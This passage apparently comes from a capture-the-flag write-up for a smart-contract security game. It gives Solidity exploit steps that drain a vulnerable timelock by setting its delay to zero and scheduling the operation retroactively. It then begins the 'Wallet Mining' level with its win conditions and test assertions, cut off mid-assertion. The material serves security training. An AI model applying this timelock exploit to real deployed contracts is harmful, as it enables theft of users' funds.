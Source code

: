 * We update the `delay` to `0` so this operation is marked as `ReadyForExecution`.

```solidity
targets[2] = address(timelock);
values[2] = 0;
dataElements[2] = abi.encodeWithSignature(
  "updateDelay(uint64)",
  0
);
```

* Finally, the `AttackerSchedule` instance, having received the parameters to be sent to `execute()`, will call `schedule()` to update the status of the operation. Notice that these two steps can be done in either order, as `execute()` has not being invoked.

```solidity
targets[3] = address(attackerSchedule);
values[3] = 0;
dataElements[3] = abi.encodeWithSignature(
  "setSchedule()"
);

bytes memory payload = abi.encodeWithSignature(
  "schedule(address[],uint256[],bytes[],bytes32)",
  targets,
  values,
  dataElements,
  salt
);
attackerSchedule.setPayload(payload);
```

* Calling `execute()` will transfer the funds to the `playerAddress`, completing the challenge.

```solidity
timelock.execute(targets, values, dataElements, salt);
```

### References

* https://docs.openzeppelin.com/contracts/3.x/api/utils#Address-functionCallWithValue-address-bytes-uint256-
* https://eips.ethereum.org/EIPS/eip-1822
* https://docs.openzeppelin.com/contracts/5.x/api/access

## 13 Wallet Mining

To beat this level, we need to comply with:

* Be able to deploy code at the given addresses.
* Drain the given deposit address and the wallet deployer contract into the player's account.

```solidity
// Factory account must have code
assertTrue(address(walletDeployer.fact()).code.length > 0);

// Master copy account must have code
assertTrue(address(walletDeployer.copy()).code.length > 0);

// Deposit account must have code
assertTrue(DEPOSIT_ADDRESS.code.length > 0);

// The deposit address and the Safe Deployer contract must not hold tokens
assertEq(token.balanceOf(DEPOSIT_ADDRESS), 0);
assertEq(token.balanceOf(address(walletDeployer)), 0);

// Player must own all tokens
assertEq(
```